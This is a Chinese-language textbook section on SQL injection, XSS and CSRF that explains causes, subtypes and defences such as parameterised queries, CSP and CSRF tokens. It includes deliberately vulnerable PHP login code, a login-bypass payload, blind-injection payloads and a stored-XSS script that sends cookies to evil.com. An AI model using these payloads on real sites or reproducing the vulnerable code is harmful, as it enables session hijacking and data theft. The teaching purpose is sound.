

# 4.4 Web 安全：SQL 注入、XSS、CSRF

> [!abstract] 本节概述
> 本节解决"Web 应用层三大经典漏洞如何利用与防御"这一**机密性、完整性、认证**威胁问题。SQL 注入针对数据库（拼接 SQL 绕过认证/泄露数据）、XSS 针对用户浏览器（注入脚本窃取会话）、CSRF 针对服务器会话（冒用用户身份执行操作）。三者同列 OWASP Top 10，是 Web 安全必修。本节拆解每类漏洞的原理、子类型、典型 payload 与首选防御，并以对比表格区分三者，最后给出 CSRF 攻击流程图与真实案例。

> [!info] 资产与信任边界
> - **核心资产**：数据库内容（用户凭证、业务数据）、用户浏览器与会话 Cookie、服务器业务操作（转账、改密、删数据）
> - **信任边界**：浏览器↔Web 服务（HTTP 请求）；Web 服务↔数据库（SQL 查询）；浏览器同源策略边界
> - **攻击者能力假设**：
>   - SQL 注入：能向 Web 应用提交可控输入（表单、URL 参数、Cookie、HTTP 头）
>   - XSS：能诱导用户访问含恶意脚本的页面，或向可被其他用户看到的位置注入内容
>   - CSRF：能诱导已登录用户访问恶意页面，利用浏览器自动携带 Cookie
> - **威胁模型**：
>   - SQL 注入 → 机密性（数据泄露）、完整性（篡改数据）、认证（绕过登录）、可用性（删库 `DROP TABLE`）
>   - XSS → 完整性（伪造内容）、机密性（窃取 Cookie/敏感信息）、认证（会话劫持）
>   - CSRF → 完整性（冒用身份执行业务操作）
> - **缓解措施方向**：输入验证 + 输出编码、参数化查询、CSP、CSRF Token、SameSite Cookie、最小权限数据库账号、WAF

> [!warning] 仅限授权实验环境使用
> 本节涉及的 payload 与攻击手法**仅可在自建靶场（如 DVWA、SQLi-Labs、OWASP Juice Shop）或授权渗透测试中使用**。对任何真实第三方网站执行注入、XSS 或 CSRF 攻击均属违法，可能触犯《刑法》第 285、286 条。所有示例 payload 仅作原理说明。

## SQL 注入

> [!definition] SQL 注入（SQL Injection, SQLi）
> 攻击者将恶意 SQL 片段拼接进应用后端的 SQL 语句，改变原语句语义，从而绕过认证、泄露/篡改数据或执行管理操作。根因是**字符串拼接构造 SQL**且未对用户输入做参数化处理。

### 漏洞原理

> [!example] 典型漏洞代码（PHP，仅作反面教材）
> ```php
> // 漏洞：直接拼接用户输入到 SQL
> $user = $_POST['username'];
> $pass = $_POST['password'];
> $sql = "SELECT * FROM users WHERE username='$user' AND password='$pass'";
> $db->query($sql);
> ```
> 正常输入 `admin / 123456` 生成：
> ```sql
> SELECT * FROM users WHERE username='admin' AND password='123456'
> ```
> 攻击者输入 `admin' -- ` / `任意` 生成：
> ```sql
> SELECT * FROM users WHERE username='admin' --' AND password='任意'
> ```
> `--` 注释掉密码校验，无论密码对错都以 admin 身份登录。

### SQL 注入类型

| 类型 | 原理 | 判定方式 | 难度 |
| ---- | ---- | -------- | ---- |
| **联合查询（UNION）** | 用 `UNION SELECT` 拼接额外查询，把结果回显到页面 | 页面直接显示注入结果 | 易 |
| **报错注入** | 构造使数据库报错的 payload，错误信息含查询结果 | 页面回显数据库错误 | 易 |
| **布尔盲注** | 页面无回显但根据条件真假返回不同内容（如登录成功/失败） | `AND 1=1` vs `AND 1=2` 页面差异 | 中 |
| **时间盲注** | 页面无任何差异，用 `SLEEP()` 等延时函数根据条件真假控制响应时间 | 响应时间差异 | 难 |
| **堆叠查询** | 用 `;` 拼接第二条 SQL 执行（取决于驱动是否支持） | 可执行 INSERT/UPDATE/DELETE | 视后端 |

> [!tip] 盲注的核心技巧
> 布尔盲注通过 `AND substr((SELECT password FROM users LIMIT 1),1,1)='a'` 逐字符猜解，结合二分法可大幅减少请求数。时间盲注用 `IF(condition, SLEEP(5), 0)`，根据响应是否延迟判断条件真假。二者都说明：即使没有回显，注入仍可能泄露数据，防御必须从源头（参数化）而非依赖"隐藏错误"。

### 防御

| 防御 | 原理 | 效果 |
| ---- | ---- | ---- |
| **参数化查询（预编译）** | SQL 模板与参数分开发送，参数仅作数据不作代码 | **根本防御**，参数无法改变 SQL 结构 |
| **ORM** | 框架默认参数化 | 等价参数化，但拼接原生 SQL 仍可注入 |
| **输入验证** | 白名单校验类型/格式/长度 | 纵深防御，不能单独依赖 |
| **最小权限账号** | 应用 DB 账号仅 SELECT/INSERT 必要权限，禁 DROP/FILE | 降低注入危害 |
| **WAF** | 规则识别注入特征 | 辅助拦截，可被绕过 |
| **关闭错误回显** | 生产环境不返回数据库错误 | 防报错注入，但不防盲注 |

> [!example] 参数化查询修复（Python sqlite3）
> ```python
> # 修复：参数化，user/pass 仅作数据
> cur.execute(
>     "SELECT * FROM users WHERE username=? AND password=?",
>     (user, pass)
> )
> ```
> 即使输入 `admin' -- `，数据库把它当字符串字面值匹配，不会改变 SQL 结构。这是 SQL 注入的**根本防御**。

## XSS 跨站脚本

> [!definition] XSS（Cross-Site Scripting，跨站脚本）
> 攻击者向 Web 页面注入恶意客户端脚本（通常 JavaScript），在其他用户的浏览器上下文中执行，从而窃取 Cookie/会话、劫持操作、篡改页面或植入恶意软件。根因是**用户可控输入被原样输出到页面且未编码**。

> [!note] 为什么叫 XSS 而不是 CSS
> 缩写本应是 CSS，但已被层叠样式表（Cascading Style Sheets）占用，故安全领域约定叫 XSS。

### XSS 三型

| 类型 | 注入位置 | 持久性 | 典型场景 |
| ---- | -------- | ------ | -------- |
| **反射型** | URL 参数被原样回显到响应 | 非持久（需诱导点击恶意链接） | 搜索结果页回显关键词 |
| **存储型** | 注入内容存入数据库，所有访问者触发 | 持久（危害最大） | 论坛帖子、评论、个人资料 |
| **DOM 型** | 纯前端 JS 从 URL/location 取值写入 DOM，不经服务端 | 非持久 | 前端路由 `#` 参数被 `innerHTML` 写入 |

> [!example] 存储型 XSS 示例
> - 评论框输入：`<script>new Image().src='https://evil.com/c?'+document.cookie</script>`
> - 服务器未编码存入数据库，评论列表页输出该内容
> - 任何访问评论页的用户浏览器执行脚本，Cookie 被发送到 `evil.com`
> - 攻击者用窃取的 Cookie 冒充用户会话（会话劫持）
>
> 防御：输出到 HTML 上下文时编码 `<`、`>`、`&`、`"`、`'`；设置 Cookie `HttpOnly` 阻止 JS 读取。

### 防御

| 防御 | 针对类型 | 原理 |
| ---- | -------- | ---- |
| **输出编码（Context-aware）** | 全部 | 按输出位置（HTML/属性/JS/URL）转义特殊字符 |
| **CSP（Content Security Policy）** | 全部 | 限制脚本来源，禁内联脚本 |
| **HttpOnly Cookie** | 会话窃取 | JS 无法读 Cookie，XSS 偷不到 |
| **输入验证** | 全部 | 白名单校验，纵深防御 |
| **框架自动转义** | 全部 | React/Vue 默认转义，除非用 `dangerouslySetInnerHTML` |

> [!tip] CSP 的核心指令
> ```http
> Content-Security-Policy: default-src 'self'; script-src 'self' https://cdn.example.com; object-src 'none'; base-uri 'self'
> ```
> - `default-src 'self'`：默认只允许同源资源
> - `script-src 'self'`：只允许同源脚本，**禁内联 `<script>` 和 eval**
> - `object-src 'none'`：禁 Flash/插件
> CSP 让即便存在 XSS 也无法加载外部脚本或执行内联脚本，是纵深防御利器。

## CSRF 跨站请求伪造

> [!definition] CSRF（Cross-Site Request Forgery，跨站请求伪造）
> 攻击者诱导**已登录**用户访问恶意页面，该页面在用户不知情下向目标站点发起请求（如转账、改密），浏览器**自动携带**用户在该站点的 Cookie，使请求被服务器误认为是用户本人发起。根因是**浏览器对跨站请求自动携带 Cookie**且服务器仅凭 Cookie 判定身份。

### 攻击流程



> [!note] CSRF 成立的前提
> 1. 用户已在目标站点登录，浏览器持有有效 Cookie
> 2. 目标站点仅凭 Cookie 鉴权，无额外来源验证
> 3. 关键操作可通过 GET 或简单 POST 表单触发（GET 尤其危险，IMG 标签即可触发）
> 4. 攻击者无需读取 Cookie（受同源策略保护），只需让浏览器**自动携带**它

### 防御

| 防御 | 原理 | 效果 |
| ---- | ---- | ---- |
| **CSRF Token** | 服务端为会话生成随机 Token，表单/请求头必须携带且校验 | 攻击者无法跨域读取 Token，伪造请求被拒 |
| **SameSite Cookie** | 设 `SameSite=Lax/Strict`，跨站请求不携带 Cookie | 浏览器层阻断，现代浏览器默认 Lax |
| **Referer/Origin 校验** | 校验请求来源是否为可信域 | 辅助手段，Referer 可被某些浏览器策略去除 |
| **二次确认** | 关键操作要求输入原密码/验证码 | 防护最强但影响体验 |
| **避免 GET 触发写操作** | 写操作只用 POST/PUT | 防 IMG/LINK 触发 GET CSRF |

> [!example] CSRF Token 与 SameSite 配合
> ```http
> Set-Cookie: session=abc123; HttpOnly; Secure; SameSite=Lax
> ```
> ```html
> <!-- 表单携带服务端下发的 CSRF Token -->
> <input type="hidden" name="csrf_token" value="随机不可预测值">
> ```
> 双重防御：SameSite Lax 阻断大部分跨站 POST 携带 Cookie；Token 阻断剩余（如未设 SameSite 的旧浏览器或同站子域攻击）。

## 三大漏洞对比

| 维度 | SQL 注入 | XSS | CSRF |
| ---- | -------- | --- | ---- |
| **攻击目标** | 数据库 | 用户浏览器 | 服务器会话 |
| **攻击者位置** | 直接向应用提交输入 | 注入脚本到受害者浏览器 | 诱导已登录用户访问恶意页 |
| **根因** | SQL 字符串拼接 | 输出未编码 | Cookie 自动携带 + 仅凭 Cookie 鉴权 |
| **危及的安全目标** | 机密性/完整性/认证/可用性 | 完整性/机密性（用户侧）/认证 | 完整性（业务操作） |
| **是否需用户配合** | 否 | 反射型/DOM 需诱导点击，存储型自动触发 | 需诱导用户访问恶意页 |
| **是否需用户登录** | 否 | 否（但窃会话针对登录用户） | **是**（必须有有效会话） |
| **首选防御** | 参数化查询 | 输出编码 + CSP | CSRF Token + SameSite |

> [!warning] 区分 XSS 与 CSRF
> - XSS 是"在用户浏览器执行攻击者脚本"，攻击者**直接控制**受害者浏览器上下文
> - CSRF 是"诱导用户浏览器发请求"，攻击者**不读取**响应也不注入脚本，仅利用 Cookie 自动携带
> - XSS 可窃取 Cookie 进而发起更灵活攻击；CSRF 只能让浏览器发预设请求。XSS 防御（如 HttpOnly）可缓解 Cookie 窃取但不能直接防 CSRF；CSRF Token 防 CSRF 但不防 XSS。

## 案例：OWASP Top 10 与真实漏洞案例

> [!example] OWASP Top 10 中的对应类别
> OWASP Top 10 是 Web 应用安全风险排行榜，本章三类漏洞均长期上榜：
> - **A03:2021 Injection**（含 SQL 注入）——曾长期位居前茅
> - **A07:2021 Identification and Authentication Failures**——CSRF 常导致会话冒用
> - **A03:2021 也涵盖 XSS**（合并自原 A07:2017 XSS）
> - 此外 Top 10 还包含失效访问控制、安全配置错误、脆弱组件等，覆盖范围远超本章三类
>
> 真实案例：
> - **SQL 注入**：2009 年 Heartland Payment Systems 因 SQL 注入泄露 1.34 亿张信用卡数据，是当时美国最大支付数据泄露
> - **XSS**：2005 年 Samy 蠕虫通过 MySpace 存储型 XSS，24 小时内感染 100 万用户，是 Web 蠕虫经典案例
> - **CSRF**：2008 年韩国一个 CSRF 漏洞被用于批量转账，凸显关键操作缺 Token 的危害

## 本节小结

> [!note] Web 三大漏洞的防御主线
> - **SQL 注入**：根因拼接，根治用参数化；最小权限账号降危害
> - **XSS**：根因输出未编码，根治用上下文感知编码；CSP + HttpOnly 纵深
> - **CSRF**：根因 Cookie 自动携带，根治用 CSRF Token + SameSite；写操作禁 GET
> - **共同教训**：永远不信任用户输入——输入侧验证类型格式，输出侧按上下文编码，关键操作额外验证来源与意图

## 章节导航

- 上级：[[MOC - 信息安全技术|信息安全技术总览]]
- 本章：[[MOC - 第4章|第4章 网络攻击与防御技术]]
- 上一节：[[4.3 ARP 欺骗、中间人攻击|4.3 ARP 欺骗、中间人攻击]]
- 下一节：[[4.5 防火墙、入侵检测 IDS、IPS 基础|4.5 防火墙、入侵检测 IDS、IPS 基础]]
- 习题：[[MOC - 第4章习题|第4章 习题]]
